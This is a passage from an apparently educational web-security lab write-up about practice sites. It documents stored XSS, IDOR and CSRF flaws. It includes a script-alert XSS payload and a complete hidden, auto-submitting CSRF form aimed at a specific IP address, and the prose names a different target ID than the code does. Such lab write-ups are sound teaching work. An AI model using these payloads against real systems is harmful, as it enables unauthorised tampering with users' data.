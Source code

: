 <img src="./gifs/UserEnumeration.gif" width="894"/>


**Vulnerability #2: Cross-Site Scripting**

The green site's contact form (found at `/green/public/contact.php`) allows arbitrary JavaScript to be submitted and later executed by authenticated users in the administration interface (found at `/green/public/staff/feedback/index.php`).

For example, submitting the following JavaScript in the "Feedback" field of the contact form will lead to a JavaScript alert appearing when feedback is viewed by an authenticated user.

```HTML
<script>alert('zmh68 - XSS');</script>
```

<img src="./gifs/XSS.gif" width="704"/>



## Red

**Vulnerability #1: Insecure Direct Object Reference (IDOR)**

The red site is vulnerable to an IDOR attack, as inactive salespeople's detail pages are accessible by altering the value of the `id` GET parameter in the URL `/red/public/salesperson.php?id=`. Other versions of the site redirect requests for non-public salesperson profiles back to the general public listing of salespeople.

<img src="./gifs/IDOR.gif" width="704"/>



**Vulnerability #2: Cross-Site Request Forgery (CSRF)**

The red site does not require a valid CSRF token to be submitted when updating a salesperson's information via the URL `/red/public/staff/salespeople/edit.php?id=`, where `id` is the salesperson's ID. This enables covert editing of data through hiding requests to this endpoint in other pages an authenticated user might visit. 

For example, if an authenticated user loaded a page with the following sample HTML, the phone number of the salesperson with ID 5 would be updated, without the action being directly visible to the user.

```HTML
<!doctype html>
<html lang="en">
  <head>
    <title></title>
  </head>
  <body onload="document.ohnoForm.submit()">
  <h1>Some random important content</h1>
  <h2>definitely not a trap.</h2>
    <form name="ohnoForm" action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=1" method="POST" style="display: none;" target="secretIFrame" > <br />
      <input type="hidden" name="csrf_token" value="" /> <br />
      <input type="text" name="first_name" value="Oh" /> <br />
      <input type="text" name="last_name" value="No" /><br />
      <input type="text" name="phone" value="555-867-5309" /><br />
      <input type="text" name="email" value="bleh@example.org" /><br />
    </form>
    <iframe name="secretIFrame" style="display:none;"></iframe>
  </body>
</html>
```
<img src="./gifs/CSRF.gif" width="704"/>
